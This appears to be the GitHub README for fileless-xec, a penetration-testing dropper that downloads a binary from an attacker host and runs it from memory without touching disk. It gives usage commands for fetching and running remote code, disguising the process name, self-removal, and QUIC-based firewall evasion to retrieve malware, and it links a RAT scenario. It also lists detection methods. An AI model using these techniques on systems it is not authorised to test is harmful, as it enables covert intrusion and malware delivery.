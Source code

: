 <h1 align=center> ➲ fileless-xec 🦜</h1>

<div align="center"><img src="https://github.com/ariary/fileless-xec/blob/main/img/fileless-small.png"></div>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine



## ➲ Short story

`fileless-xec` enable us to execute a remote binary on a local machine directly from memory without dropping them on disk

**[➪ Install](https://github.com/ariary/fileless-xec/blob/main/install.md)**

 - simple usage `fileless-xec [binary_url]` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd [binary_url]`
 - detach program execution from `tty`: ` fileless-xec --setsid [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/fileless-xec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to locally execute <code>writeNsleep</code> binary located on a remote machine. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun). Once writeNsleep start fileless-xec will delete itself (<code>--self-remove</code>)

</details>

### Other use cases

* [Execute binary with stdout/stdin](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-stdoutstdin)
* [Execute binary with arguments](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-arguments)
* [`fileless-xec` self remove](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-self-remove)
* [Bypass network restriction using ICMP](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp)
* [Bypass firewall with HTTP3](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-firewall-with-http3)
* ["Remote go": execute go binaries without having go installed locally](https://github.com/ariary/fileless-xec/blob/main/usage.md#remote-go-execute-go-binaries-without-having-go-installed-locally)
* [Execute a shell script](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-a-shell-script)
* [`fileless-xec` server mode](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-server-mode)
  * [RAT (Remote Access Trojan) scenario](https://github.com/ariary/fileless-xec/blob/main/usage.md#rat-remote-access-trojan-scenario)
* [`fileless-xec` on windows](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-on-windows)


## ➲ Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` we could exec a program, but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`fileless-xec --setsid <binary_raw_url>`.

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```

Or also [`opensnoop`](https://github.com/brendangregg/perf-tools/blob/master/opensnoop) (but not by [`execsnoop`](https://github.com/brendangregg/perf-tools/blob/master/execsnoop))

Or seccomp profile auditing `execve` syscall (but it is very overwhelming as a `sleep` command also use execve)
